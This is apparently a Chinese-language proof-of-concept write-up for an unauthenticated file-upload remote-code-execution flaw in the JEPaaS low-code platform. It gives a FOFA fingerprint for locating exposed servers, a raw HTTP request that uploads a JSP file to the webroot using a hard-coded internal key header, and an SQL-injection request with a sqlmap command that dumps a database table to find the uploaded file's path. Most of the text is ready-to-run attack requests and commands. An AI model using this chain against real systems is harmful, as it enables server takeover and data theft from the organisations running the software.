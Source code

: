 ## JEPaaS低代码平台document存在文件上传致RCE漏洞

JEPaaS低代码开发平台开源版 旨在帮助企业快速实现信息化和数字化转型。该平台基于可视化开发环境，让软件开发人员和业务用户通过直观的可视化界面来构建应用程序 ，而不是传统的编写代码方式。用户可以在开发平台灵活各个图形化控件，以构建业务流程、逻辑和数据模型等所需的功能，必要时还可以添加自己的代码。该平台基于可视化开发环境，通过低代码拖拽式配置开发，大幅简化开发流程，提高开发效率。以其强大的功能和灵活性，适用于各种企业信息化管理系统的搭建，包括OA、ERP、CRM、HR等，并支持集团公司部署。JEPaaS低代码平台document/file存在文件上传漏洞，未经身份验证的远程攻击者可利用内部默认的key参数绕过权限认证上传任意文件，获取服务器权限。

## fofa

```
icon_hash="-999810473"
```
![image](https://github.com/user-attachments/assets/a2ad2010-1506-4299-8dd5-4d6f8d8b2bbb)

## poc

```
POST /je/document/file?bucket=webroot HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2,
internalRequestKey: schedule_898901212
Content-Type: multipart/form-data; boundary=----21909179191068471382830692394
Connection: close
 
------21909179191068471382830692394
Content-Disposition: form-data; name="files"; filename="2214.jsp"
Content-Type: image/jpeg
 
123
------21909179191068471382830692394--
```

![image.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405300929469.png)

![image.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405300929751.png)

需要搭配sql注入跑出文件路径

### sql

```
POST /rbac/im/accessToTeanantInfo HTTP/1.1
Host: xxxxx
Accept-Language: zh-CN,zh;q=0.9
internalRequestKey: schedule_898901212
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Cookie: je-local-lang=zh_CN; JSESSIONID=155BD0DA95609068A00408ACF1326C63
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

tenantId=1
```

```
sqlmap -r 2.txt --level 3 -D "jepaas" -T "je_document_file" --dump --fresh-queries
```

